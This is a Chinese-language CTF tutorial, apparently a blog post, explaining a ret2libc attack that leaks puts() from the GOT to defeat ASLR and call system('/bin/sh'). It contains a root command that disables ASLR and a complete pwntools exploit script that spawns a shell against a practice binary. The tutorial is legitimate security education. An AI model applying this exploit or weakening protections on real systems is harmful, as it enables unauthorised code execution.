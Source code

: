 ```yaml
---
title: ret2libc攻击技术示例-泄露libc基地址计算system()地址绕过ASLR
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


# 情景描述

随着保护的加强，比如加入了`ASLR(Address Space Layout Randomization),地址空间格局的随机化`保护，这时我们所获取的各个函数地址都在变化中变得不再可用（在本地我们可用），这时我们还要使用libc中的system()函数获取shell的话，那我们该怎么办呢？

其实`ASLR`在随机化过程中，只会改变libc的基地址，对于libc中各个函数的偏移是不会改变的，因此只要我们泄露内存中的`libc基地址`那么我们就能够根据偏移得到system()函数地址。

当然我们本地是可以关闭`ASLR`保护的，只需要在终端执行以下命令
```bash
sudo -s
echo 0 > /proc/sys/kernel/randomize_va_space # 2 - trun on
exit
```

# 漏洞分析

本节示例的漏洞代码可以在此处下载： [ret2libc3](http://od7mpc53s.bkt.clouddn.com/ret2libc3) & [libc.so.6](http://od7mpc53s.bkt.clouddn.com/libc.so.6)
当然这里的libc.so.6最好是用自己系统的。我们可以通过`ldd`命令查看

``` bash
➜  ret2libc3 ldd ret2libc3
	linux-gate.so.1 =>  (0xf77da000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7605000)
	/lib/ld-linux.so.2 (0x565eb000)
```

我们可以通过`sudo /lib/i386-linux-gnu/libc.so.6 .`获取合适的libc。否则的话，在本节中会出现无法拿到shell的情况哦。

我们用IDA反编译一下可以看到

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

我们要怎么获得libc中某函数的地址呢？我们一般采用的方法就是泄露got表。因为linux的延迟绑定，我们需要选择至少执行过一次的函数进行泄露，比如这里的`puts()`

通过泄露`puts()`在libc中的偏移，再结合`puts()`的实际内存地址，我们可以这样进行计算：
``` python
system_addr - libc_system = puts_addr - libc_puts
system_addr = puts_addr + (libc_system - libc_puts)
```
即system()的内存地址为puts()的内存地址再加上两个函数在libc中的偏移差

那么

``` bash
➜  ret2libc3 objdump -dj .plt ret2libc3 | grep -E "puts|system"
08048460 <puts@plt>:
```

# 攻击代码

``` python
from pwn import *

#context.log_level = 'debug'

elf = ELF('ret2libc3')
libc = ELF('libc.so.6')


plt_puts = elf.symbols['puts']
got_puts = elf.got['puts']
plt_main = elf.symbols['_start']

libc_system = libc.symbols['system']
libc_puts = libc.symbols['puts']

payload = 'A' * 112
payload += p32(plt_puts) + p32(plt_main) + p32(got_puts)

io = process('ret2libc3')
io.recvuntil('Can you find it !?')
io.sendline(payload)

temp = io.recv(4)
puts_addr = u32(temp)
print "[+] puts() address: " + hex(puts_addr)

libc_base = puts_addr - libc_puts
print "[+] libc base address: " + hex(libc_base)

system_addr = libc_base + libc_system
print "[+] system address: " + hex(system_addr)

bin_sh_addr = libc_base + next(libc.search('/bin/sh'))
print "[+] /bin/sh address: " + hex(bin_sh_addr)

payload = 'A' * 112
payload += p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

io.recvuntil('Can you find it !?')
io.sendline(payload)
io.interactive()

```
